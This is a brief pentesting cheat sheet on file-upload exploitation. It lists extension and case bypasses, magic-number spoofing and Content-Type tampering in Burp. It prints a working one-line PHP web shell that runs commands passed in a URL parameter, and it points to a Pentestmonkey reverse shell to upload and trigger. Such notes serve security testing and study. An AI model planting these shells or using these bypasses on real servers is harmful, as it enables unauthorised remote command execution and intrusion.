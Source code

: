 # File Upload Exploitation

## Steps

1. Try normal webshell upload (`.php`, `.asp`).
2. Test double extensions: `shell.php.jpg`
3. Test case bypass: `shell.pHp`
4. Test magic numbers for image bypass.

## PHP Webshell

<?php system($_GET['cmd']); ?>
Reverse Shell
Use php-reverse-shell.php from Pentestmonkey

Upload, then trigger via browser

Burp Bypass
Intercept request

Change Content-Type and extension in-flight
